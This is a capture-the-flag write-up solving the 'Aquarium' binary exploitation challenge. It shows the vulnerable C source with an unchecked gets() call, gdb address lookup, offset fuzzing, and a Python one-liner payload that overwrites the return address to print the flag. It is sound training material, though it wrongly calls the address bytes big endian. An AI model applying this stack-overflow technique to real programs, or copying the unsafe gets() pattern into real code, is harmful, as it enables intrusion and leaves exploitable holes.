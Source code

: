 # Aquarium
###### Binary Exploitation - 50 Points

> Here's a nice little program that helps you manage your fish tank.
> Run it on the shell server at /problems/2019/aquarium/ or connect with nc shell.actf.co 19305.
> Author: kmh11

So we get the following C file and we are supposed to find the flag:

```c 
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

struct fish_tank {
	char name[50];
	int fish;
	int fish_size;
	int water;
	int width;
	int length;
	int height;
};


struct fish_tank create_aquarium() {
	struct fish_tank tank;

	printf("Enter the number of fish in your fish tank: ");
	scanf("%d", &tank.fish);
	getchar();

	printf("Enter the size of the fish in your fish tank: ");
	scanf("%d", &tank.fish_size);
	getchar();

	printf("Enter the amount of water in your fish tank: ");
	scanf("%d", &tank.water);
	getchar();

	printf("Enter the width of your fish tank: ");
	scanf("%d", &tank.width);
	getchar();

	printf("Enter the length of your fish tank: ");
	scanf("%d", &tank.length);
	getchar();

	printf("Enter the height of your fish tank: ");
	scanf("%d", &tank.height);
	getchar();

	printf("Enter the name of your fish tank: ");

	char name[50]; <<< VULN
	gets(name);    <<< VULN
	strcpy(name, tank.name);
	return tank;
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	struct fish_tank tank;

	tank = create_aquarium();

	if (tank.fish_size * tank.fish + tank.water > tank.width * tank.height * tank.length) {
		printf("Your fish tank has overflowed!\n");
		return 1;
	}

	printf("Nice fish tank you have there.\n");

	return 0;
}
```

In the code we can spot 2 very critical lines(marked with arrows) which allow us to use a `buffer overflow` attack. 

So what do we want to do?
- We want to override the `name` variable.
- We want to change the return address to the `flag` function.

Let's begin by finding the `flag` function's address.

We can open the aquarium program in gdb and use `p flag` to get the address

```
Reading symbols from ./aquarium...
(No debugging symbols found in ./aquarium)
(gdb) p flag
$1 = {<text variable, no debug info>} **0x4011b6** <flag>
```

Let's try giving the program about 155 characters and see how it reacts:

```
$ python -c 'print ("1\n1\n10\n10\n10\n10\n" + "A" * 155)' | ./aquarium
$ Enter the number of fish in your fish tank: Enter the size of the fish in your fish tank: Enter the amount of water in your fish tank: Enter the width of your fish tank: Enter the length of your fish tank: Enter the height of your fish tank: Enter the name of your fish tank: Segmentation fault (core dumped) 
```

Oh, the program crashed. Well, what's actually going on is that we have overridden the return address, what caused the program to return to a faulty address.

Let's calculate (around) how many characters we would have to insert in order to insert a new return address:

Before we do that we need to understand how the stack is layed out, so the stack is a data type that starts out high valued and decreases with each push.
So stack will be layed out like this (once we get to the get function in the create_aquarium function)

| Stack         | Size          |
| ------------- | ------------- |
| name          | 50 bytes	|
| fish_tank	| 62 bytes      |
| junk 		| ?? bytes	|
| return address| 8  bytes 	|

To find out how big the junk / filler we just try out a few offsets until we dont override the return address.

So we found out that 152 is the correct amount of characters we would need to insert in order to start overriding the return address(which means the junk part is 31 bytes).

Now we can insert our desired address(don't forget to use big endian) and return to it:
```
$ python -c "print('1\n1\n10\n10\n10\n10\n' + 'A' * 152 + '\xb6\x11\x40\x00')" | ./aquarium
$ actf{overflowed_more_than_just_a_fish_tank}
```

Thanks for reading this writeup, it's my first one and I am sure I have big space for improvement, if you have some constructive feedback be sure to comment or send me an email @ sudaiguy1@gmail.com.
